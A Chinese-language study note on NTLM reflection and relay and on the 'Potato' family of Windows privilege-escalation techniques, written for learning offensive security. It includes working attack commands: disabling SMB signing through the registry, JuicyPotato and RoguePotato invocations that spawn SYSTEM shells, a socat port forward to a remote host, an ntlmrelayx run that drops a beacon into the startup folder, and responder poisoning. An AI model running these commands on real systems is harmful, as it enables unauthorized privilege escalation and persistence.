# NTLM 反射分析



攻击者通过一定的方法使得 Client 与自己进行认证，然后将 Client 发送过来的 Credential 转发回 Client 自身，从而攻击 Client（你也可以认为此时的 Client 也相当于是一台 Server）。早年出现的 SMBRelay 攻击方案就是这种方法。


##  Windows SSP&SSPI



**SSPI**

`SSPI` 全称 `Security Support Provider Interface`（安全支持提供者接口），是 `Windows` 操作系统中用于执行各种安全相关操作（如身份验证）的一个`Win32 API`。

**SSP**

`Windows 身份验证协议`

Microsoft 安全支持提供程序接口 (SSPI) 是 Windows 身份验证的基础。 要求身份验证的应用程序和基础结构服务会使用 SSPI ，使用的协议就是以下 `SSP` 安全协议。

- NTLM SSP((msv1_0.dll))
  - 为Windows 2000之前的客户端-服务器域和非域身份验证（SMB/CIFS）提供NTLM质询/响应身份验证。
- Kerberos(kerberos.dll)
  - Windows 2000及更高版本中首选的客户端-服务器域相互身份验证。
- Cred SSP(credssp.dll)
  - 为远程桌面连接提供单点登录（SSO）和网络级身份验证。
- Digest SSP
- Negotiate SSP(secur32.dll)
  - 选择Kerberos，如果不可用则选择NTLM协议。协商SSP提供单点登录能力，有时称为集成Windows身份验证
- Schannel SSP(Schannel.dll)
  - Windows 2000中引入，Windows Vista中更新为支持更强的`AES`加密和`ECC`该提供者使用SSL/TLS记录来加密数据有效载荷。
- Negotiate Extensions SSP
- PKU2U SSP(pku2u.dll)
  - 在不隶属域的系统之间提供使用数字证书的对等身份验证。
- 摘要SSP(wdigest.dll)
  - 在Windows与Kerberos不可用的非Windows系统间提供基于HTTP和SASL身份验证的质询/响应。

### SSPI和SSP如何工作

SSPI的功能是作为众多安全支持提供程序（SSP）的通用接口：安全支持提供者（Security Support Provider）是可以为应用程序提供一种或多种安全功能包的动态链接库（dynamic-link library）。


- **联合系统中丰富的客户端可用性**：可以在 SharePoint 站点上访问文档，还可以使用功能完备的 Microsoft Office 应用程序对其进行编辑。
- **为 Microsoft Office 服务提供丰富的客户端支持**：用户可以登录到 Microsoft Office services 并使用全功能 Microsoft Office 应用程序。
- **托管的 Microsoft Exchange 服务器和 Outlook**：由于 Exchange Server 托管在 web 上，因此没有建立域信任。 Outlook 使用 Windows Live 服务对用户进行身份验证。
- **客户端计算机和服务器之间的丰富客户端可用性**：使用操作系统的网络和身份验证组件。

SSP 是一套认证协议，用于实现身份认证等安全功能的身份验证。
比如 ：
  - NTLM SSP 实现的就是一种 Challenge/Response 验证机制。
  - Kerberos 实现的就是基于 ticket 的身份验证机制。
  - Cred SSP 实现远程桌面连接提供单点登录（SSO）和网络级身份验证。

简单来讲，认证只要在支持的API中就可以调用，就比如 `NTLM认证`可以同时在 HTTP 和 SMB 中使用。而注册为 SSP 的一个好处就是，SSP 实现了了与安全有关的功能函数，那上层协议(比如 SMB)在进行身份认证等功能的时候，就可以不用考虑协议细节，只需要调用`相关的函数`即可。

### NTLM SSP 原理(NTLM 身份验证协议)

这里假设客户端以账号 `admin` 密码 `123`，连接服务端，身份验证方式为 `NTLM SSP`。

共 4 步：

1. 客户端利用 NTLM SSP 生成 NTLM_NEGOTIATE 消息 （被称为 TYPE 1 消息），并将 TYPE 1 消息发送给服务端。

2. 服务端接收到客户端发送过来的 TYPE 1 消息，传入 NTLM SSP，得到 NTLM_CHALLENGE 消息（被称为 `TYPE 2 `消息），并将此消息发回客户端。此消息中包含了一个由服务端生成的随机值，此随机值被称为 challenge。

3. 客户端收到服务端返回的 TYPE 2 消息，并取出其中的随机值 challenge。客户端将密码 （123） 转换为 LM HASH 与 NT HASH，同时利用计算出来的 LM HASH 与/或 NT HASH 对 challenge 进行一些计算。算出来的那段数据，根据具体的情况，有可能是（为了简洁，这里的描述并不十分准确）：

     1.  Net LM-Hash（在有的文章里也被称为 `LM Response`）

     2. Net NTLM-Hash（在有的文章里也被称为 `NTLM Response`）

     3. Net NTLM2-Hash（在有的文章里也被称为` NTLM2 Response/NTLM2 Session Response`）

     4. Net NTLMv2-Hash（在有的文章里也被称为 `NTLMv2 Response`）

     5. Net LMv2-Hash（在有的文章里也被称为 LMv2 Response）,总而言之，计算出来的这段 hash 数据，将会封装到 NTLM_AUTH 消息中（被称为 TYPE 3 消息），发往服务端

4. 服务端收到 TYPE 3 消息后，将会重复第 3 步客户端的操作，也计算出来一个 hash。然后将自己计算出来的 hash 与客户端发送过来的 TYPE 3 消息中的 hash 进行对比，如果一样，则客户端验证成功。不一样，则客户端验证失败 。

**举例**

在 Exchange 的 `Offline Address Book` 中，HTTP头 `Authorization` 信息栏中就存在 `Basic` 认证的 通过 `base64` 编码的 `NTLM认证凭证`



正是利用这一特性，才能够将 `NTLM` 消息从客户端传输到服务器。客户端在一个名为 `Authorization` 的头中发送消息，服务器在一个名为 `WWW-Authenticate` 的头中发送消息。如果客户端试图访问一个需要认证的网站，服务器将通过添加 `WWW-Authenticate` 头来响应，并返回它支持的不同认证机制.

客户端知道需要 NTLM 认证，将发送授权头中的第一条消息，用 base64 编码，因为该消息不仅包含可打印字符。服务器将在 `WWW-Authenticate` 头中回应一个挑战，客户端将计算响应，并在授权头中发送。如果认证成功，服务器通常会返回一个 200 的返回码，表示一切顺利。

**kerberos 跨域**

https://www.geekby.site/2020/05/%E5%9F%BA%E4%BA%8E%E5%9F%9F%E4%BF%A1%E4%BB%BB%E5%85%B3%E7%B3%BB%E7%9A%84%E5%9F%9F%E6%94%BB%E5%87%BB/#%E8%B7%A8%E5%9F%9F%E8%AE%A4%E8%AF%81%E5%92%8C%E8%B5%84%E6%BA%90%E8%AE%BF%E9%97%AE%E6%8E%88%E6%9D%83


### Integration with SMB

它是SMB协议，用于访问网络共享,SMB协议的工作原理是使用命令。例如，有 `SMB_COM_OPEN` 、`SMB_COM_CLOSE` 或 `SMB_COM_READ` ，这些命令用于打开、关闭或读取文件。

SMB 还具有专用于配置 SMB 会话的命令，该命令为 `SMB_COM_SESSION_SETUP_ANDX` 。此命令中的两个字段专用于 NTLM 消息的内容。

- LM/LMv2 Authentication: OEMPassword
- NTLM/NTLMv2 authentication: UnicodePassword

从 `SMB` 数据包的示例可以看到，其中包含服务器对身份验证的响应



### LmCompatibilityLevel

参考链接 ： `https://technet.microsoft.com/en-us/library/cc960646.aspx`

客户端发送的 TYPE 3 消息中的那段 hash（也许严格意义上来说不能被称为 hash？），有可能是多种类型中的一种。

那到底什么时候用什么类型的 hash 呢？是由 `LmCompatibilityLevel` 来决定的。在组策略中，它叫作 “网络安全: LAN 管理器身份验证级别”。

这里就引出了另一个问题：**客户端与服务端 LmCompatibilityLevel 的兼容性**的问题。

你有没有碰到过这样的情况：当服务器上有一个账号 `admin` 密码 `123` 的账户，但是你 `net use \\server "123" /user:admin` 却提示账号密码错误？如果有，那么你可能就遇到了两边 `LmCompatibilityLevel` 不兼容的情况。

客户端发送的 `hash` 的类型与服务端所期待的类型不一样，服务端计算出来了与客户端不一样的 `hash`，导致用户名密码错误。

在 `LmCompatibilityLevel` 不兼容的情况下，你正常去连接的结果是验证失败，自然用 `NTLM-Relay` 的结果肯定也是验证失败。

`LmCompatibilityLevel` 的默认值，不同的操作系统，甚至不同的补丁版本，是不一样的。在`多数情况下应该是兼容的`。

## Signing

按照 Server 端的 `Signing/Encryption`
举例：

**SMB Signing**

比如 `Client` 与 `Server` 建立了一个 `Socket` 连接后，可以使用 `SSP` 与 `Server` 进行身份认证，身份认证完以后，`Client` 与 `Server` 还可以利用 `SSP` 提供的会话安全功能为后续的数据包进行签名与加密，以防止数据包被中间人篡改、窃听。

SSP 提供的会话安全功能，是基于 `session key` 的。在 Client 与 Server 端进行了身份认证以后，Client 与 Server 端都能够同时得到一个用于会话安全功能的 `session key`。攻击者要想知道这个 `session key`，就必须要知道 Client 的原始密码，而对于 `Credential Relay` 的攻击场景，攻击者只是站在一个中间人的位置对 `Credential` 进行转发，是不可能知道客户端的原始密码的

这里用一张图来解释一下 `Signing` 机制防止 `Credential Relay` 的方法：


`Attacker` 在攻击一个开启了 `Signing/Encryption` 的服务器的时候，出现的情况就是认证会成功，但是后续的操作会失败。因为 `Server` 要求后续数据包是被 `session key` 签名、加密过的，而 `Attacker` 没有 `Client` 的原始密码无法计算出那个 `session key`，所以自然也就无法对攻击数据包进行签名、加密。操作失败的具体表现依 `Server` 的不同而不同，你有可能会看到一个报错说操作失败，也有可能看到的是`服务端无响应`之类的。

此时 `Server` 必须要支持并且强制使用 `SSPI session key` 来对数据包进行签名或加密，才能够使用这种方法来防御 `Credential Relay`。

而这个 key 是 `sessionkey`，需要使用用户 hash 去生成，攻击者没有用户 hash，所以没有 `sessionkey`, 也就是没办法加解密，这个时候签名也就起到了防御 Relay 的效果。

一般情况下，域控会默认开启，而 Windows 单机默认都不会开, 因为用于域控制器的 GPO 包含以下条目：



关闭签名验证的命令： `Windows Server` 系列中 `RequireSecuritySignature` 子键默认值为 1

`reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f`




### LDAP 签名

对于 LDAP，有三个级别：

- 禁用：这意味着不支持数据包签名。
- 协商签名：此选项表示计算机可以处理签名，并且如果与之通信的计算机也可以处理签名，则将对其进行签名。
- 必需：这最终表明不仅支持签名，而且必须对数据包进行签名才能使会话继续。

客户端在注册表中按照图中顺序打开：



在注册表中按照图中顺序打开：




中间级别的协商签名不同于 `SMBv2` 的情况，因为这一次，如果客户端和服务器能够对数据包进行签名，则它们将。而对于 `SMBv2`，只有在至少需要一个实体的情况下才对数据包进行签名。

与 `SMB` 的区别在于，在 `Active Directory` 域中，所有主机都具有 “`Negotiated Signing`” 设置。域控制器不需要签名。

对于域控制器， `ldapserverintegrity` 注册表项位于 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\NTDS\Parameters` 配置单元中，根据级别可以为` 0、1 或 2`。默认情况下，它在域控制器上设置为 `1`。


对于客户端，它也设置为 1。由于所有客户端和域控制器都具有协商签名功能，因此默认情况下将对所有 LDAP 数据包进行签名。

因此，现在我们了解到，与 SMB 相反，如果我们位于客户端和服务器之间，并且希望使用 LDAP 将身份验证中继到服务器，则需要两件事：

- 该服务器不能要求数据包签名，这是默认情况下，所有机器的情况下，
- 该客户端必须不设置 NEGOTIATE_SIGN 标志 1。如果他这样做，那么服务器将期望签名，并且由于我们不知道客户端的秘密，因此我们将无法对我们精心制作的 LDAP 数据包进行签名。


### Negotiation

实际上，在 `NTLM` 消息中，除了质询和响应之外，还有其他信息可以交换。也有协商标志或协商标志。这些标志指示发送实体支持的内容。

此协商允许知道`客户端/服务器`是否支持签名，并且在 `NTLM` 交换期间完成。



当客户端将此标志设置为 `1` 时，表示客户端支持签名。请注意，这并不意味着他一定会在他的数据包上签名。只是他有能力。

类似地，当服务器回复时，如果它支持签名，那么该标志也将设置为 1。

因此，该协商允许客户端和服务器两方中的每一方向对方指示是否可以签名数据包。对于某些协议，即使客户端和服务器支持签名，也不一定意味着将对数据包进行签名。

### 参考

- https://www.secrss.com/articles/8906
- https://mp.weixin.qq.com/s?__biz=MzI5Nzc0OTkxOQ==&mid=2247483756&idx=1&sn=bda30341cd0eecd692a72258608ceb4a&chksm=ecb11d9cdbc6948af8dcede1617a96e2e85134d00eebfa70e806accdc672d6c20a6c0fb3818a&scene=21#wechat_redirect
- https://www.anquanke.com/post/id/210324
- https://www.lz1y.cn/2019/11/19/Ghost-potato%E5%AE%9E%E9%99%85%E5%88%A9%E7%94%A8/index.html
- https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/


# 土豆家族分析

用于理解为NTLM反射的应用。

## 原理讲解

**SeAssignPrimaryTokenPrivilege 权限**

1. System帐号（也叫LocalSystem）的交互服务与非交互服务初始特权都一样

2. 非System帐号的特权数一样（与具体帐号有关），只是做为服务的程序大部分特权初始都是关闭的，需要服务自己根据需要打开（Enable）

3. System帐号的特权比Administrator帐号多出几个特权：`SeAssignPrimaryTokenPrivilege`，`SeLockMemoryPrivilege`，`SeTcbPrivilege`，`SeCreatePermanentPrivilege`，`SeAuditPrivilege`；但 `Administrator` 帐号多了一个`SeRemoteShutdownPrivilege` 特权

4. 除了System帐号，其他帐号是不可能运行在TCB中的

### 如何利用

1. 利用Potato提权的是前提是拥有 `SeImpersonatePrivilege` 或`SeAssignPrimaryTokenPrivilege`权限，以下用户拥有`SeImpersonatePrivilege`权限:
   - 本地管理员账户(不包括管理员组普通账户)和本地服务账户

2. Windows服务的登陆账户

   - Local System(**NT AUTHORITY\SYSTEM**)

   - Network Service(**NT AUTHORITY\Network Service**)

   - Local Service(**NT AUTHORITY\Local Service**)

也就是说提权方向应该是：

  ```
  Administrator ——> SYSTEM
  Service       ——> SYSTEM
  ```

服务账户在 `windows` 权限模型中本身就拥有`很高的权限`
在实际渗透过程中，拿到 `webshell` 下，用户权限是 `IIS` 或者 `apache`，或通过`SQLi`执行 `xp_cmdshell` ,此时手里的服务账户在进行操作时是低权限账户，而使用该提权手法可以直接获取 `SYSTEM` 权限。

3. `windows token`

`windows token` 是描述安全上下文的对象，用户登陆后系统就会生成 `token`，创建新进程或新线程时这个token会不断口碑

```
用户账户的(SID)
用户所属的组的SID
用于标识当前登陆会话的登陆SID
用户或用户组所拥有的权限列表
所有者SID
所有者组的SID
访问控制列表
访问令牌的来源
主令牌/模拟令牌
限制SID的可选列表
```


当用户具有`SeImpersonatePrivilege`特权，则可以调用`CreateProcessWithTokenW`时以某个Token的权限启动新进程
当用户具有`SeAssignPrimaryTokenPrivilege`特权，则可以调用`CreateProcessAsUserW`以`Token`权限启动新进程

---

## 历史土豆分析

### Origin Potato_MS08-068

漏洞详情：
- https://support.microsoft.com/zh-cn/topic/ms08-068-vulnerability-in-smb-could-allow-remote-code-execution-cdd08c90-10d4-ca87-68d3-4841472ba1ec

`Microsoft Server Message Block` (SMB) 协议中一个公开披露的漏洞。该漏洞可能允许在受影响的系统上执行远程代码。成功利用此漏洞的攻击者可以安装程序；查看、更改或删除数据；或创建具有完全用户权限的新账户。




在漏洞修复之前，当拿到用户的 smb 请求之后，最直接的就是把请求 Relay 回用户本身，即 `Reflect`。从而控制机子本身。

Microsoft 知识库文章 `957097` 记录了客户在安装此安全更新时可能遇到的当前已知问题。

出现这个问题的原因是NT LAN Manager (NTLM)将不同的命名约定视为远程实体而不是本地实体。当客户端在将响应发送回服务器之前，在本地 "lsass "内存中计算并缓存服务器发送的NTLM挑战的正确响应时，可能会发生本地验证失败。当NTLM的服务器代码在本地“ lsass”缓存中找到接收到的响应时，该代码将不接受身份验证请求，并将其视为重播攻击。此行为导致本地身份验证失败。

**简单的来说:**


主机 A 向主机 B(访问 `\\B`) 进行 SMB 认证的时候，将 `pszTargetName` 设置为 `cifs/B`, 然后在 `type 2` 拿到主机 B 发送 `Challenge` 之后，在 `lsass` 里面缓存 (`Challenge`,cifs/B)。

然后主机 B 在拿到主机 A 的 `type 3 `之后，会去查看 `lsass` 里面有没有缓存 (`Challenge`,`cifs/b`)，如果存在缓存，那么认证失败。

这种情况底下，如果主机 B 和主机 A 是不同的主机的话，那 `lsass` 里面就不会缓存 (`Challenge`,`cifs/B`)。如果是同一台主机的话，那 `lsass` 里面肯定有缓存，这个时候就会认证失败。


### MS16-075_HOT Potato

**利用工具**：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075

**漏洞原理**

一个典型的 `NTLM_RELAY` 利用链,需要等待 `windows update`。

利用环境：`DBNS`欺骗，`WPAD` 和 `Windows update` 服务,按照Relay的一般流程，我们从三方面着手，将思路串起来，达到本地提权的效果

1. 怎么发起ntlm请求
发起ntlm请求请求的方式:
配合NBNS投毒欺骗和伪造WPAD代理服务器拿到用户的 `Net-NTML hash`，所有的HTTP请求将会被重定向至 "http://localhost/GETHASHESxxxxx" ，其中的xxxxx表示的是某些唯一标识符。将会影响目标主机中所有的用户，包括管理员账户和系统账户

2. 拿到ntlm 请求之后要做什么
MS08-068虽然限制了同台主机之间smb到smb的Relay，但是并没有限制从http到smb，我们配置配合NBNS投毒欺骗和伪造WPAD代理服务器拿到的ntlm请求说http的形式，我们可以直接relay 到本机的smb。

3. 服务端是否要求签名
我们Relay到的服务端协议是smb，除非是域内的域控，不然在工作组环节底下，或者域内的域成员机器，都是不要求签名的。

### Rotten Potato

详情：https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/


通过 `DCOM call` 来使服务向攻击者监听的端口发起连接并进行 `NTLM` 认证,需要`SelmpersonatePrivilege`权限

此时，如果要模拟令牌，最好以具有SeImpersonate特权（或等效特权）的帐户运行。幸运的是，这包括Windows中的许多服务帐户，渗透测试人员通常最终以这些帐户运行。例如，IIS和SQL Server帐户。


### Juicy Potato

`Juicy Potato`的实现流程如下：



1. 加载COM，发出请求，权限为 `System`,在指定ip和端口的位置尝试加载一个COM对象。

`RottenPotatoNG` 使用的 COM 对象为 BITS ，CLSID为`{4991d34b-80a1-4291-83b6-3328366b9097}`
可供选择的COM对象不唯一，`Juicy Potato` 提供了多个，详细列表可参考如下地址：

https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

2. 回应步骤1的请求，发起NTLM认证,正常情况下，由于权限不足，当前权限不是System，无法认证成功。

3. 针对本地端口，同样发起NTLM认证，权限为当前用户。由于权限为当前用户，所以NTLM认证能够成功完成。`RottenPotatoNG` 使用的 `135` 端口。

`Juicy Potato` 支持指定任意本地端口，但是RPC一般默认为135端口，很少被修改。

4. 分别拦截两个`NTLM`认证的数据包，替换数据，通过NTLM重放使得步骤1(权限为`System`)的NTLM认证通过，获得`System`权限的`Token`,重放时需要注意`NTLM`认证的`NTLM Server Challenge`不同，需要修正。

5. 利用`System`权限的`Token`创建新进程

- 如果开启SeImpersonate权限，调用CreateProcessWithToken，传入System权限的Token，创建的进程为System权限。

- 如果开启SeAssignPrimaryToken权限，调用CreateProcessAsUser，传入System权限的Token，创建的进程为System权限

常用工具：

https://github.com/ohpe/juicy-potato



常用命令：

```
JuicyPotato -p "whoami /priv"
或
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

如果用户具有 `SeImpersonate` 或 `SeAssignPrimaryToken` 特权，那么提权后就是 `SYSTEM`。

### Sweet Potato_Juicy Potato衍生版本

`Juicy Potato` 的重写

https://github.com/CCob/SweetPotato

`COM/WinRM/Spoolsv` 的集合版，也就是 `Juicy/PrintSpoofer`
从Windows 7 到 windows10/windows server2019的本地服务到system特权升级


### PrintSpoofer

最初公开POC的老外叫它 `PrintSpoofer`，之后360的paper叫它 `PipePotato`，然后GitHub一个国人的POC又叫它 `BadPotato`。尊重第一个公开POC的作者，后文叫它`PrintSpoofer`.

该POC是`2020.5`公开的，它是通过Windows named pipe的一个API: `ImpersonateNamedPipeClient`来模拟高权限客户端的token（还有类似的`ImpersonatedLoggedOnUser`，`RpcImpersonateClient`函数），调用该函数后会更改当前线程的安全

但当传递`\\127.0.0.1/pipe/foo`时，校验路径时会认为`127.0.0.1/pipe/foo`是主机名，随后在连接`named pipe`时会对参数做标准化，将`/`转化为`\`，于是就会连接`\\127.0.0.1\pipe\foo\pipe\spoolss`，攻击者就可以注册这个`named pipe`从而窃取`client`的`token`



这个POC有趣的地方在于，它利用了打印机组件路径检查的BUG，使`SYSTEM`权限服务能连接到攻击者创建的`named pipe`


### RoguePotato

- https://github.com/antonioCoco/RoguePotato

利用了命名管道,微软修补后，高版本` Windows DCOM` 解析器不允许`OBJREF`中的`DUALSTRINGARRAY`字段指定端口号。为了绕过这个限制并能做本地令牌协商，作者在一台远程主机上的`135`端口做流量转发，将其转回受害者本机端口，并写了一个恶意`RPC OXID`解析器

**RPC支持的协议**
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101

|RPC transport	|RPC protocol sequence string|
|-|-|
|SMB	|ncacn_np (see section 2.1.1.2)
|TCP/IP (both IPv4 and IPv6)	|ncacn_ip_tcp (see section 2.1.1.1)
|UDP	|ncadg_ip_udp (see section 2.1.2.1)
|SPX	|ncacn_spx (see section 2.1.1.3)
|IPX	|ncadg_ipx (see section 2.1.2.2)
|NetBIOS over IPX	|ncacn_nb_ipx (see section 2.1.1.4)
|NetBIOS over TCP	|ncacn_nb_tcp (see section 2.1.1.5)
|NetBIOS over NetBEUI	|ncacn_nb_nb (see section 2.1.1.6)
|AppleTalk	|ncacn_at_dsp (see section 2.1.1.7)
|RPC over HTTP	|ncacn_http (see section 2.1.1.8)

**利用代码：**

```bash
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

**示例**


###  CVE-2019-1384_Ghost potato

**相关文章**

  - [Ghost Potato](https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html)
  - [Ghost Potato 复现(Cve-2019-1384)](https://xz.aliyun.com/t/7087)

这个漏洞绕过了 `MS08-068` 之后，用户不能 `relay` 回本机的限制。

[ghostpotato-利用工具](https://shenaniganslabs.io/files/impacket-ghostpotato.zip)

主机A向主机B(访问`\\B`)进行SMB认证的时候，将 `pszTargetName` 设置为 `cifs/B` ,然后在`type 2`拿到主机B发送 `Challenge` 之后，在 `lsass` 里面缓存( `Challenge` , `cifs/B` )。

然后主机B在拿到主机A的type 3之后，会去 `lsass` 里面有没有缓存( `Challenge` , `cifs/b` )，如果存在缓存，那么认证失败。



这种情况底下，如果主机B和主机A是不同的主机的话，那 `lsass` 里面就不会缓存(`Challenge`,`cifs/B`)。如果是同一台主机的话，那 `lsass` 里面肯定有缓存，这个时候就会认证失败。

然而这个缓存(`Challenge`,`cifs/B`)是有时效性的，这个时间是`300`秒，也就是说300秒后，缓存(Challenge,cifs/B)就会被清空，这个时候即使主机A和主机B是同一台主机，那么由于缓存已经被清除，那么去 `lsass` 里面肯定找不到缓存(`Challenge`, `cifs/B` )。




```bash
cd impacket-ghostpotato
pip uninstall impacket
pip install .
cd examples
python3 ntlmrelayx.py -t smb://192.168.91.2 -smb2support --gpotato-startup beacon.exe(内容)
```



```
responder -I eth0 --lm
```

使用 IE 浏览器进行访问




经过 `315` 秒后 POC 会自动上传文件到 WIndows 启动目录，用户下次登录时自启动




**Poc提供两个上传路径**


### 参考

- https://github.com/antonioCoco/RoguePotato
- https://www.anquanke.com/post/id/217397
- https://www.anquanke.com/post/id/194514
- https://xz.aliyun.com/t/7776